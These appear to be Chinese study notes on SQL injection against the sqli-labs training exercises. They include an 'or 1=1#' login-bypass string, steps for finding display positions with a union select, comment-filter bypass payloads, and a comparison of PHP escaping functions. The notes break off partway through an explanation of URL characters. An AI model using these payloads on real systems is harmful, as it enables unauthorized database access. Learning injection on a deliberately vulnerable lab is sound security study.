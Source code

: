 ```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```

## 步骤

1.判断注入类型

2.判断是否有显示位

将id=1改为一个数据库不存在的id值，如861，使用union select 1,2,3联合查询语句查看页面是否有显示位，如果发现页面先输出了2和3，说明页面有2个显示位，如果没有输出，说明页面没有显示位。无法使用联合查询注入。

有显示位:联合查询

无显示位:报错注入


### 一些注入姿势

在sql-lab-master 23关  对 sql语句 过滤了注释符，可以手动闭合 '

	' union select null,@@datadir,'

	等价于

	' union select null,@@datadir,3'

查数据库表编码

	select CHARSET(username) from users;

查数据库编码

	show create database security;

mysql_escape_string()没办法判断当前的编码，在PHP5.3中已经弃用这种方法, mysql_escape_string() 并不转义 % 和 _。

mysql_real_escape_string()之所以能够防注入是因为同时指定了服务端的编码和客户端的编码。

	$username =  mysql_escape_string($_POST['username']);
	$pass = mysql_escape_string($_POST['password']);
	INSERT INTO users (username,password) values (\"$username\", \"$pass\")


在sql-lab-master 25关 

 	
	and  =====> &&
    or   =====> ||
等价， 验证
		
	  ``` select * from users where id > 5 and id < 10;```

	  ``` select * from users where id > 5 && id < 10;```

**&&**会被浏览器过滤，因为 &？#在url中有别的含义。

 	# 代表网页中的一个位置。其右面的字符，就是该位置的标识符。比如，

http://www.example.com/index.html#print就代表网页index.html的print位置。浏览器读取这个URL后，会自动将print位置滚动至可视区域。
  	
	？

1）连接作用：比如

```